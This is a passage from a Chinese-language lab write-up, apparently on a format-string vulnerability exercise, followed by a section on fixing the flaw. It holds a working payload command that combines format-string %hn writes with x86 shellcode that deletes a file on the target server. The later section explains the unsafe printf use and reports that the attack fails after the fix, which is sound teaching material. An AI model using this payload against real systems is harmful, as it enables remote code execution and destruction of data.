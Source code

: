 然后再通过以下命令创建`input`文件，并发送至server：

```
echo $(printf "\x9E\xF0\xFF\xBF@@@@\x9C\xF0\xFF\xBF" )%.8x%.8x%.8x%.8x%.8x%.8x%.8X%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.48963x%hn%.12637x%hn$(printf "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68bash\x68////\x68/bin\x89\xe3\x31\xc0\x50\x68-ccc\x89\xe0\x31\xd2\x52\x68ile \x68/myf\x68/tmp\x68/rm \x68/bin\x89\xe2\x31\xc9\x51\x52\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80") > input
```

![image](https://user-images.githubusercontent.com/64548919/194721816-bffb636d-7765-4699-ae16-9bcd42b42e7d.png)

此时可以看到server端已经退出，并且目标文件也被删除。

![image](https://user-images.githubusercontent.com/64548919/194721848-4559b378-2bf2-486e-a674-1e329cdce296.png)


### Task 7: Getting a Reverse Shell


### Task 8: Fixing the Problem

![image](https://user-images.githubusercontent.com/64548919/193268104-d88d5453-5dc7-4fe4-b592-1067bb27b3b4.png)

考虑上文中Task1中的警告，对于该警告出现的合理解释是该处printf没有格式化的字符串而直接使用用户输入的字符串。如果用户输入的字符串中有格式化字符串的符号，那么printf函数有可能被利用执行一些不合法的操作。

![image](https://user-images.githubusercontent.com/64548919/193405256-72428b7b-6927-4c7d-90cd-c2c6c78334ae.png)

解决方案是修改为如下的代码：

![image](https://user-images.githubusercontent.com/64548919/193405348-eacdabfe-8712-423d-961d-d5b8ba157420.png)

编译后不再有任何警告：

![image](https://user-images.githubusercontent.com/64548919/193405455-cbd3fc26-5e9f-4dd5-bb29-64812f643a4b.png)

再次对之前的攻击验证进行尝试（以Task3举例）：


![image](https://user-images.githubusercontent.com/64548919/193405522-0c4a9bba-dfa7-4974-85c2-38cc597d3fa4.png)

可以看到之前大量`%s`造成程序crash的攻击方式已经失效。

## Reference

[1]

[2] 初次使用gdb调试器,出现的No symbol table is loaded. Use the "file" command.问题 https://blog.csdn.net/u010176547/article/details/12623939